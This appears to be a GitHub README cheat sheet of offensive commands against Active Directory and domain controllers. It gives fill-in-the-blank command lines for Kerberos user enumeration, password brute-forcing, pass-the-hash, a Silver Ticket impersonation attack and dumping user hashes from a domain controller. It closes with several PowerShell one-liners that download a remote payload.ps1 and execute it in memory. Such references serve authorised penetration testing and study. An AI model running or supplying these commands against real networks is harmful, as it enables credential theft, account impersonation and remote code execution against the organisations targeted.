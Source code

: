 <pre>
               _   _             _____  _               _                   
     /\       | | (_)           |  __ \(_)             | |                  
    /  \   ___| |_ ___   _____  | |  | |_ _ __ ___  ___| |_ ___  _ __ _   _ 
   / /\ \ / __| __| \ \ / / _ \ | |  | | | '__/ _ \/ __| __/ _ \| '__| | | |
  / ____ \ (__| |_| |\ V /  __/ | |__| | | | |  __/ (__| || (_) | |  | |_| |
 /_/    \_\___|\__|_| \_/ \___| |_____/|_|_|  \___|\___|\__\___/|_|   \__, |
                                                                       __/ |
                                                                      |___/ 
               ___ _                _   __ _               _   
              / __\ |__   ___  __ _| |_/ _\ |__   ___  ___| |_ 
             / /  | '_ \ / _ \/ _` | __\ \| '_ \ / _ \/ _ \ __|
            / /___| | | |  __/ (_| | |__\ \ | | |  __/  __/ |_ 
            \____/|_| |_|\___|\__,_|\__\__/_| |_|\___|\___|\__|
                                                   
</pre>

### A compilation of tools and techniques targeting Active Directory and Domain Controlers.


#### 0x00 Mind Map
[Pentesting Active Directory](https://www.xmind.net/m/5dypm8/)


#### 0x01 Recon & Enumeration

##### [ARP-Scan](https://github.com/royhills/arp-scan)
Discover live hosts on a local network:

`arp-scan --interface=<INTERFACE> --localnet`


##### [Kerbrute](https://github.com/ropnop/kerbrute)
Enumerate or validate accounts through Kerberos Pre-Authentication [aka Pre-auth Bruteforcing]:

`kerbrute userenum --dc <DOMAIN CONTROLLER> -d <DOMAIN> <WORDLIST>` 


##### [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
Brute-force with User&Pass combinations:

`crackmapexec smb <IP> -u <USER LIST> -P <PASSWORD>`

Pass-The-Hash

`crackmapexec smb <HOST/RANGE> -u <USER> -H <NTLM HASH>`


##### [gMSADumper](https://github.com/micahvandeusen/gMSADumper)
LDAP Enumeration

`python3 gMSADumper.py -u <USER> -p <PASSWORD> -d <DOMAIN>`


#### 0x02 Exploitation

##### [Responder](https://github.com/lgandx/Responder/)

Listening for events:

`responder -I <NETWORK INTERFACE> -A`

##### [Impacket-getSTX](https://github.com/SecureAuthCorp/impacket)

Silver Ticket Attack

`python3 getST.py <DOMAIN>/<USER>$ -spn WWW/<DOMAIN CONTROLLER> -hashes :<HASH> -impersonate <USER TO IMPERSONATE>`


#### 0x03 Post-Exploitation

##### [KrbRelayX](https://github.com/dirkjanm/krbrelayx)

Add DNS records:

`python3 dnstool.py -u '<DOMAIN>\<USER>' -p '<PASSWORD>' -a add -r '<RECORD.DOMAIN>' -d <YOUR IP> <MACHINE IP>`

##### [Impacket-getADUser](https://github.com/SecureAuthCorp/impacket)

Authenticated User Enumeration

`python3 GetADUsers.py -all <DOMAIN>/<USER>:<PASS> -dc-ip <IP ADDRESS>`


##### [Impacket-SecretsDump](https://github.com/SecureAuthCorp/impacket)

Dump User Hashes from Domain Controller

`python3 secretsdump.py <DOMAIN>/<USER>:<PASS>@<MACHINE>`

##### Downloading files via PowerShell
`iex (New-Object Net.WebClient).DownloadString('http://server/payload.ps1')`


`$ie=New-Object -ComObject
InternetExplorer.Application;$ie.visible=$false;$ie.navigate('http://server/payload.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response`

###### PSv3 & onwards
`iex (iwr 'http://server/payload.ps1')`


`$h=New-Object -ComObject
Msxml2.XMLHTTP;$h.open('GET','http://server/payload.ps1',$false);$h.send();iex
$h.responseText`


`$wr = [System.NET.WebRequest]::Create("http://server/payload.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()`

